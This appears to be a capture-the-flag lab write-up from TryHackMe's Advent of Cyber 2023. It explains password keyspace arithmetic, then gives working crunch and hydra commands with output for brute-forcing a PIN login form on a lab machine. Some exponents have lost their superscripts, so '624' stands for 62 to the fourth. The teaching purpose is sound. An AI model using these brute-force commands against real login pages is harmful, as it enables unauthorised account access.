 Everyone was shocked to discover that several critical systems were locked. But the chaos didn’t end there: the doors to the IT rooms and related network infrastructure were also locked! Adding to the mayhem, during the lockdown, the doors closed suddenly on Detective Frost-eau. As he tried to escape, his snow arm got caught, and he ended up losing it! He’s now determined to catch the perpetrator, no matter the cost.

It seems that whoever did this had one goal: to disrupt business operations and stop gifts from being delivered on time. Now, the team must resort to backup tapes to recover the systems. To their surprise, they find out they can’t unlock the IT room door! The password to access the control systems has been changed. The only solution is to hack back in to retrieve the backup tapes.

**Learning Objectives**

After completing this task, you will understand:

- Password complexity and the number of possible combinations
- How the number of possible combinations affects the feasibility of brute force attacks
- Generating password combinations using ```crunch```
- Trying out passwords automatically using ```hydra```

**Feasibility of Brute Force**

In this section, we will answer the following three questions:

- How many different PIN codes do we have?
- How many different passwords can we generate?
- How long does it take to find the password by brute force?

**Counting the PIN Codes**

Many systems rely on PIN codes or passwords to authenticate users (authenticate means proving a user’s identity). Such systems can be an easy target for all sorts of attacks unless proper measures are taken. Today, we discuss brute force attacks, where an adversary tries all possible combinations of a given password.

How many passwords does the attacker have to try, and how long will it take?

Consider a scenario where we need to select a PIN code of four digits. 

How many four-digit PIN codes are there? The total would be 10,000 different PIN codes: ```0000```, ```0001```, ```0002```,…, ```9998```, and ```9999```. 
Mathematically speaking, that is 10×10×10×10 or simply 104 different PIN codes that can be made up of four digits.

**Counting the Passwords**

Let’s consider an imaginary scenario where the password is exactly four characters, and each character can be:

- A digit: We have 10 digits (0 to 9)
- An uppercase English letter: We have 26 letters (A to Z)
- A lowercase English letter: We have 26 letters (a to z)

Therefore, each character can be one of 62 different choices. Consequently, if the password is four characters, we can make 62×62×62×62 = 624 = 14,776,336 different passwords.

To make the password even more complex, we can use symbols, adding more than 30 characters to our set of choices.

![allowed](https://github.com/schoto/Advent-of-Cyber-2023/assets/69323411/6c02ba13-41c2-4da6-87a0-ba0bd71c9676)

**How Long Does It Take To Brute Force the Password**

14 million is a huge number, but we can use a computer system to try out all the possible password combinations, i.e., brute force the password. If trying a password takes 0.001 seconds due to system throttling (i.e., we can only try 1,000 passwords per second), finding the password will only take up to four hours.

If you are curious about the maths, 624×0.001 = 14, 776 seconds is the number of seconds necessary to try out all the passwords. We can find the number of hours needed to try out all the passwords by dividing by 3,600 (1 hour = 3,600 seconds): 14,776/3,600 = 4.1 hours.

In reality, the password can be closer to the beginning of the list or closer to the end. Therefore, on average, we can expect to find the password in around two hours, i.e., 4.1/2 = 2.05 hours. Hence, a four-character password is generally considered insecure.

We should note that in this hypothetical example, we are assuming that we can try 1,000 passwords every second. Few systems would let us go this fast. After a few incorrect attempts, most would lock us out or impose frustratingly long waiting periods. On the other hand, with the password hash, we can try passwords offline. In this case, we would only be limited by how fast our computer is.

We can make passwords more secure by increasing the password complexity. This can be achieved by specifying a minimum password length and character variety. For example, the character variety might require at least one uppercase letter, one lowercase letter, one digit, and one symbol.

**Generating the Password List**

The numeric keypad shows 16 characters, 0 to 9 and A to F, i.e., the hexadecimal digits. We need to prepare a list of all the PIN codes that match this criteria. We will use Crunch, a tool that generates a list of all possible password combinations based on given criteria. We need to issue the following command:

```crunch 3 3 0123456789ABCDEF -o 3digits.txt```

The command above specifies the following:

- ```3``` the first number is the minimum length of the generated password
- ```3``` the second number is the maximum length of the generated password
- ```0123456789ABCDEF``` is the character set to use to generate the passwords
- ```-o 3digits.txt``` saves the output to the ```3digits.txt``` file

To prepare our list, run the above command on the AttackBox’s terminal.

```
root@AttackBox# crunch 3 3 0123456789ABCDEF -o 3digits.txt
Crunch will now generate the following amount of data: 16384 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 4096
crunch: 100% completed generating output
```

After executing the command above, we will have ```3digits.txt``` ready to brute force the website.

**Using the Password List**

Manually trying out PIN codes is a very daunting task. Luckily, we can use an automated tool to try our generated digit combinations. One of the most solid tools for trying passwords is Hydra.

Before we start, we need to view the page’s HTML code. We can do that by right-clicking on the page and selecting “View Page Source”. You will notice that:

- The method is ```post```
- The URL is ```http://MACHINE_IP:8000/login.php```
- The PIN code value is sent with the name ```pin```

![method](https://github.com/schoto/Advent-of-Cyber-2023/assets/69323411/b9e891d9-a888-4220-8bf4-6bc6fac57b2b)

In other words, the main login page http://MACHINE_IP:8000/pin.php receives the input from the user and sends it to ```/login.php``` using the name ```pin```.

These three pieces of information, ```post```, ```/login.php```, and ```pin```, are necessary to set the arguments for Hydra.

We will use ```hydra``` to test every possible password that can be put into the system. The command to brute force the above form is:

```
hydra -l '' -P 3digits.txt -f -v MACHINE_IP http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```

The command above will try one password after another in the ```3digits.txt``` file. It specifies the following:

- ```-l ''``` indicates that the login name is blank as the security lock only requires a password
- ```-P 3digits.txt``` specifies the password file to use
- ```-f``` stops Hydra after finding a working password
- ```-v``` provides verbose output and is helpful for catching errors
```MACHINE_IP``` is the IP address of the target
```http-post-form``` specifies the HTTP method to use
- ```"/login.php:pin=^PASS^:Access denied"``` has three parts separated by ```:```

```/login.php``` is the page where the PIN code is submitted

```pin=^PASS^``` will replace ```^PASS^``` with values from the password list

```Access denied``` indicates that invalid passwords will lead to a page that contains the text “Access denied”

- ```-s 8000``` indicates the port number on the target

It’s time to run ```hydra``` and discover the password. Please note that in this case, we expect ```hydra``` to take three minutes to find the password. Below is an example of running the command above:

```
root@AttackBox# hydra -l '' -P 3digits.txt -f -v MACHINE_IP http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-19 17:38:42
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1109 login tries (l:1/p:1109), ~70 tries per task
[DATA] attacking http-post-form://MACHINE_IP:8000/login.php:pin=^PASS^:Access denied
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] Page redirected to http[s]://MACHINE_IP:8000/error.php
[VERBOSE] Page redirected to http[s]://MACHINE_IP:8000/error.php
[VERBOSE] Page redirected to http[s]://MACHINE_IP:8000/error.php
[...]
[VERBOSE] Page redirected to http[s]://MACHINE_IP:8000/error.php
[8000][http-post-form] host: MACHINE_IP   password: [redacted]
[STATUS] attack finished for MACHINE_IP (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-19 17:39:24
```

The command above shows that ```hydra``` has successfully found a working password. On the AttackBox, running the above command should finish within three minutes.

We have just discovered the new password for the IT server room. Please enter the password you have just found at http://MACHINE_IP:8000/ using the AttackBox’s web browser. This should give you access to control the door.

Now, we can retrieve the backup tapes, which we’ll soon use to rebuild our systems.

**Q/A**

![answa](https://github.com/schoto/Advent-of-Cyber-2023/assets/69323411/5457e2b3-0d15-46a7-84e3-94b451f43910)

